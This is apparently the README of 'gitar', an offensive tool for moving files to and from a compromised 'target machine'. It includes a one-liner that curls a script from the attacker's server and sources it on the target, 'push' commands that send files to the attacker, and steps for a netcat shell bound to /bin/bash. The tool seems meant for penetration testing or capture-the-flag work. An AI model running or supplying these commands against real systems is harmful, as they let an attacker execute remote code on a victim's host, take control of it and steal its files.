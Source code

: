 <h1 align=center> 🎸 gitar ⇆</h1>

----
<div align="center">
<code>
<b>~></b> Have the  <b><i>simplest possible shortcuts </i></b> to upload/download file to/from the <q>target machine</q>

<b>~></b><b><i> No installation needed</i></b> on <q>target machine</q>
</code>

<img src="https://github.com/ariary/gitar/blob/main/img/gitar-demo.gif">
</div>



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a di1rectory** to my attacker machine: `pushr [file]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

----

## Set up

### Pre-requisites

* HTTP Network connectivy between attacker & target machine
* On target machine: `curl` 
	* `tar` for upload directory 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

### Steps

 1. <sup>(Attacker machine)</sup> Launch the "server" : `gitar -e [server_reachable_ip]`
 2. <sup>(Target machine)</sup> Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. It is also provided by step 1. (in gitar output): `curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias`

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

### Steps with a `nc` reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*
1. <sup>(Target machine)</sup> Launch your classic listener: `nc -nvlp 4444 -e /bin/bash`
2. <sup>(Attacker machine)</sup> Launch the "server" : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
3.  <sup>(Attacker machine)</sup> Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `CTRL+V` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not beneifit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
- Command line to run server on a docker (or harden `gitar` with seccomp + apparmor + drop capabilities) 
- HTTPS, basic authent (for the file server part)

**Improve UX**
- Download directory support 
- Handle case when curl isn't on target machine (wget version?)
- Completion on target shell to help `pull` (path completion)
- An option to directly launch the reverse shell session with shortcut from `gitar`
- Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )
